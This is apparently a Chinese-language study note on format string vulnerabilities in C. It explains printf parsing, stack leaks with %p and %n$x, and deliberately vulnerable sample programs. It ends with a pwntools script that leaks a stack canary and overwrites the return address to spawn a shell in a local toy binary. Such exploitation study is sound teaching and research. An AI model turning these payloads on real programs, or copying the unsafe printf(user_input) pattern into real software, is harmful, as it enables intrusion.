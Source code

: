 # 格式化字符串

---

[格式化字符串](https://zh.wikipedia.org/wiki/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2)



---

### 漏洞的存在

>我们已经知道，printf函数在执行时，首先进行格式化字符串的解析——从**栈**（或者寄存器）获取参数并与符号说明进行匹配，然后将匹配的结果输出到屏幕上。那么，如果格式化字符串中的符号声明与栈上参数不能正确匹配，比如参数个数少于符号声明个数时，就有可能造成泄露。
>
>另外，printf也是一项有力的攻击武器，我们可以通过控制格式化字符串的值来实现更多的泄露或者完成更高级的利用。



### 字符串解析流程

```
%[parameter][flags][field width][.precision][length]type
```

**下面就是如何确定该格式化字符串为第几个参数的问题了，我们可以通过如下方式确定**

```
[tag]%p%p%p%p%p%p...
```



以`printf`函数为例：

在进入`printf`以后，函数首先会获取第一个参数，一个一个读取其字符会遇到两种情况:

- 当前字符不是`%`，直接输出到相应的标准输出。
- 当前字符是`%`，继续读取下一个字符
  - 如果没有字符，报错。
  - 如果下一个字符是`%`,输出`%`。
  - 否则根据相应的字符，获取相应的参数，对其进行解析并输出。



### 字符串参数

具体内容文档开头维基百科链接

常用的参数有：`%08x 和 %p`

**需要注意的是，我们上面给出的方法，都是依次获得栈中的每个参数，我们有没有办法直接获取栈中被视为第 n+1 个参数的值呢**？肯定是可以的啦。方法如下

```
%n$x  
```

**Tips:**

>1. 利用 %x 来获取对应栈的内存，但建议使用 %p，可以不用考虑位数的区别。
>2. 利用 %s 来获取变量所对应地址的内容，只不过有零截断。
>3. 利用 `%order$x` 来获取指定参数的值，利用` %order$s` 来获取指定参数对应地址的内容

### 源代码

```C
#include<stdio.h>
int main(){
    char *name = "Canary Test";
    printf("My name is %s");
    return 0;
}
```



### 程序分析

运行程序，得到下图

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Canary_3_2021-02-22_23-09-34.png)

由上图可知,由于源程序中 printf没有给格式化的参数，所以他从栈中最近的Esp+4 取参，认为其中的0x01 即为参数，存在错误

因此利用该错误，使用命令`set *(0xffffcfd4) =0x804a008` ,即可 使参数 指向 `"Canary Test"`字符串，并输出。效果如下图所示：

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Canary_4_2021-02-22_23-10-43.png)



### 格式化字符串溢出

#### 源代码

```c
#include <stdio.h>
int main(){
    char a[100];
    if(fgets(a,sizeof a,stdin)==NULL)
        return 0;
    printf(a);
    return 0;
}
```

对程序main函数 反汇编 得到下图：

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-02-24_11-32-47.png)



注意上图中地址 都是0x000开头，这时候程序没有链接got表，我们需要运行后 再查看 然后`printf`位置处 下断点

> r
>
> disass main
>
> b *0x56556265

输入后得到如下图所示：

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-02-24_11-41-08.png)





### 利用printf突破Canary保护

#### 源代码

```c
#include<stdio.h>
void exploit(){
    system("/bin/sh");  //system('/bin/sh');写法错误，这种写法 /bin/ls无法解析，要注意单引号和双引号的区别
}

void func(){
    char str[0x20];
    read(0,str,0x50);
    printf(str);
    read(0,str,0x50);
}
int main(){
    func();
    return 0;
}
```

#### 编译

无pie保护，加上 Canary保护

> gcc -no-pie -fstack-protector-all -z execstack -m32 -o Printf Printf.c 



```python
from pwn import *    #导入库
p = process("../Example/Printf")   #加载程序
p.sendline("%15$08x")     #给print函数 送入参数，使其泄漏Canary
Canary =  int(p.recv(),16)    #取前8字节 去掉'\n'
print(Canary)				#将Canary输出显示
Canary = p32(Canary)   #转换16进制，小端序
Canary_offset = 8*4			#偏移量
ret_offser = 3*4			#偏移量
exploit_addr = p32(0x080491f6)
payload = b'A'*Canary_offset + Canary + b'A'*ret_offser+ exploit_addr
p.sendline(payload)
p.interactive()

```



